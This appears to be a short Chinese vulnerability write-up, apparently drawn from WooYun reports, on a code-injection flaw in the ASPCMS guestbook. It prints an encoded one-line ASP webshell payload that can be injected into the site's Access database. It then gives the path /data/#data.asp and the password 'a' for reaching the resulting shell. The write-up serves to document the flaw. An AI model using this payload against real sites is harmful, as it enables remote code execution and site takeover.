



参考:

- [ASPCMS留言板插马 ---- wooyun-2012-06628](http://localhost/wooyun/bug_detail.php?wybug_id=wooyun-2012-06628)
- [aspcms后台备份逻辑错误导致被注入一句话木马](http://localhost/wooyun/bug_detail.php?wybug_id=wooyun-2015-0161687)

#### 详细说明

aspcms主要是信息发布系统，影响版本为asp。漏洞成因，在留言板处对信息处理不当，导致代码注入。可直接将一句话木马插入数据库。

众所周知，对以xxx.asp命名的access数据库，只要插入著名的一句话:

```
┼攠數畣整爠煥敵瑳∨≡┩愾
```


数据库默认配置为asp.目录在/data/#data.asp下。访问该asp即可得到webshell

这样就往数据库中插入了一句话，密码为a

```
http://192.168.48.1:8003/data/%23data.asp  pass:a
```



